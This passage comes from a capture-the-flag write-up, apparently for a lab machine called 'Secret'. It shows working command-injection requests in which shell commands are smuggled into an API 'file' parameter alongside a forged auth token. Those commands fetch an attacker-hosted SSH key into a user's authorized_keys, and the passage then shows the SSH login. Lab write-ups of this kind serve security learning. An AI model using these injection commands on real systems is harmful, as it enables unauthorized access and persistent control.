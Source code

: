 Exploit this vulnerability to add an SSH public key to `dasith`'s `authorized_keys` file. Serve the public key, create the `.ssh` directory in `dasith`'s home directory, and stage the file.

```bash
$ curl 'http://10.129.155.247/api/logs?file=.+>/dev/null;mkdir+/home/dasith/.ssh' -H 'auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIn0.ao6g0m3rhMoh8UxjtbTuxL_TBFNxijlH21NoLOxtrJ0'

$ curl 'http://10.129.155.247/api/logs?file=.+>/dev/null;curl+http://10.10.14.109/secret.pub+>+/home/dasith/.ssh/authorized_keys' -H 'auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIn0.ao6g0m3rhMoh8UxjtbTuxL_TBFNxijlH21NoLOxtrJ0'
```

Log in as `dasith` via SSH and grab the user flag.

```bash
$ ssh dasith@10.129.155.137
The authenticity of host '10.129.155.137 (10.129.155.137)' can't be established.
ED25519 key fingerprint is SHA256:TMkIYJ5kXqHFji0NCRdDDvYT114MAOOsRgTr5/Xd/GM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.155.137' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 11 Feb 2022 06:27:35 AM UTC

  System load:           0.08
  Usage of /:            52.9% of 8.79GB
  Memory usage:          11%
  Swap usage:            0%
  Processes:             214
  Users logged in:       0
  IPv4 address for eth0: 10.129.155.137
  IPv6 address for eth0: dead:beef::250:56ff:feb9:5b6e


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Sep  8 20:10:26 2021 from 10.10.1.168
dasith@secret:~$ ls -la ~/user.txt
-r-------- 1 dasith dasith 33 Feb 10 22:49 /home/dasith/user.txt
```

---

## SUID `root` Binary & Reading `root`'s SSH Private Key
